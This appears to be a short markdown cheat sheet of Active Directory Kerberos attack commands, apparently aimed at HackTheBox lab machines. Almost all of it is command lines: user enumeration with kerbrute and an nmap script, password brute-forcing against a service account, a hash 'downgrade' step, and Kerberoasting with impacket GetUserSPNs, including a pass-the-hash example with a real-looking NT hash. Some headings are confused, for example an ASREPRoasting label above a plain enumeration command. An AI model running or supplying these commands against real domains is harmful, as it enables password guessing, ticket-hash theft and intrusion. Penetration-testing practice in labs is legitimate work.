 ldapsearh (find user principal name and service name) --> valid users via kerbrute / or nmap (for keberoasting)


**verify vaild users**

```sh
kerbrute --dc 10.10.10.161 -d htb.local userenum validuser-list
```
**verify valid user via nmap**
```sh
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='joshi.local',userdb=/home/hello/ad/username.txt only-usernames.txt <IP>
```



**finding password hash via service user**
`got service user name via ASREPRoasting`

```sh
 kerbrute --dc 10.10.10.161 -d htb.local userenum sname.txt
```


**verify password**
```sh
kerbrute bruteuser --dc 10.10.10.100 -d active.htb password.txt SVC_TGS
```

**downgrade hash**

```sh
kerbrute --dc 10.10.10.161 -d htb.local userenum sname.txt --downgrade
```
## kerberoasting command

you need id and password for any account on the machine to perform this attack

```sh
impacket-GetUserSPNs <domainname>/username:password -dc-ip <domianip>
```

```sh
GetUserSPNs.py -request -dc-ip <DC_IP> -hashes <LMHASH>:<NTHASH> <DOMAIN>/<USERNAME>
```



`via hash`

```sh
GetUserSPNs.py -request -dc-ip 10.10.11.168 -hashes :5F38C0485F0C23F8DEDF9BF23FFA5336 scrm.local/ksimpson
```
`via ip`
```sh
 GetUserSPNs.py -request -dc-ip 10.10.11.168 -k scrm.local/ksimpson
```
`via host`

```sh
GetUserSPNs.py -request -dc-host dc1.scrm.local -k scrm.local/ksimpson
```


